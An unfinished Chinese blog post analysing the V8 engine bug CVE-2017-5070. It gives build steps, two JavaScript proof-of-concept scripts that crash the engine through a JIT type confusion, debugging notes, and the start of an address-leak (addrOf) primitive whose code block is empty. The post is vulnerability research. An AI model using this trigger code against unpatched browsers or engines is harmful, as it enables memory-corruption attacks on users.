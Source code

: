 ```yaml
---
layout:     post
title:      "V8引擎CVE-2017-5070漏洞分析（工事中）"
subtitle:   ""
date:       2019-08-02 10:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - chrome
    - v8
    - exploit
    - cve
    - browser
---
```


> 本文为本博客V8系列第三篇。

## 漏洞基本信息

[漏洞信息页面]()
[漏洞修复代码]()

根据漏洞基本信息可准备分析环境，先切换至漏洞修复前版本。
```
git checkout 9a493631005539cdabb7366352e8dd8188141a80
gclient sync
```

对源码进行编译。
```
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

## PoC

以下代码执行后V8引擎会直接崩溃。

```javascript
var array = [[{}], [1.1]];

function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }
}

var double_arr2 = [1.1,2.2];

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}

var expected = 6.176516726456e-312;
function f(){
  swap();
  double_arr2[0] = 1;
  transition();
  double_arr2[1] = expected;
}

// %OptimizeFunctionOnNextCall(f);
for(var i = 0; i < 0x10000; i++) {
  f();
}
flag = 1;
f();
assertEquals(expected, double_arr2[1]);
```

![]()

从PoC来看，应该是f()、swap()和transition()三个函数在0x10000次循环执行后产生了Bug。毫无疑问，又是一个V8在对函数进行JIT优化后由于去除“冗余”类型检查而产生的问题。

## 漏洞成因

#### 调试分析

本漏洞的PoC在调试时可能存在一些问题，直接按照之前文章中的方法对PoC进行调试时可能出现数据无法正常读出的情况，因此，需要使用GDB的attach功能进行多进程间的调试。方法如下：
1. 在一个terminal中运行测试脚本：`gdb d8 --allow-natives-syntax ./test.js`，脚本中原本用于下断点的`%SystemBreak()`全部替换成`readline()`，这样脚本会停在`readline()`这里等用户输入并回车。
2. 在另一个terminal里用`ps -uf`命令查看步骤1中的进程号，然后用`sudo gdb d8`，进入后用attach功能指定目标进程号来调试这个进程，attach上以后记得先用`stop`命令让进程暂停下来。

此外，这次编译出来的d8版本似乎并不支持job命令，应该是debug_print_object相关函数没有导出，可以修改编译参数来解决。不过问题不大，直接看raw数据也行，不过对于函数的JIT机器码查看时会比较麻烦，不会像job指令那样直接给出其中的汇编代码。不过可以从属性值中找到机器码的地址，然后使用GDB的`disassemble`命令进行查看。

#### 结果分析
本漏洞的原理为近期JS引擎漏洞中最复杂的一个，先看两个版本POC,第一个是网上的，代码在下方；第二个是原作者[大宝]()的，上面已经给出了。可能我们编译后的d8运行第一个会效果明显一些，在倒数第二行报错，即对double_arr2的解析会报错。

```javascript
var array = [[{}], [1.1]];
var double_arr2 = [1.1,2.2];
function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }

}

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}
var expected = 6.176516726456e-312;
function f(){
  Math.sin(1);
  swap();  
  double_arr2[0] = 1;
  transition(); 
  double_arr2[1] = expected; 
  
}
%DebugPrint(double_arr2);
f();
%OptimizeFunctionOnNextCall(f);
flag = 1;
f();

print ("111");
print (expected === double_arr2[1]);
print ("222")
```

那么仔细看一下本漏洞的大致原理是什么呢？关键在于transition和swap这两个函数。

swap函数不仅仅是需要JIT优化，还要防止自己因为过短而被inline进f()。

transition这个函数看似没有对我们的array和double_arr2进行任何改变，仅仅只修改了局部变量arr。但是，这只是代码表面现象，实际上v8会对array中的两个元素进行优化调整。并且这个优化调整还会在flag=1时在swap中涉及到double_arr。

最后由于执行次数太多，swap和transition会进行JIT优化并去除一些类型检查。最终的效果就是double_arr2在访问时会直接把自己的元素上保存的数据当作double值给直接返回出来，而不是正常情况下把它们作为double对象的指针去寻找目标内存中下一个的数据作为double来返回。

因此，这个漏洞最后的表现为：double_arr2直接把自己元素的指针当作double来返回了。

## 漏洞利用

#### 泄露地址

由于double_arr2开始直接把自己元素的指针当作double来返回了，所以在f()里直接对double_arr2进行object赋值，这样访问double_arr后就能直接得到object的地址了。于是这就是个任意地址读的原语addrOf（object），这里并没有暴露出很明显的fakeObject原语。

```javascript

```

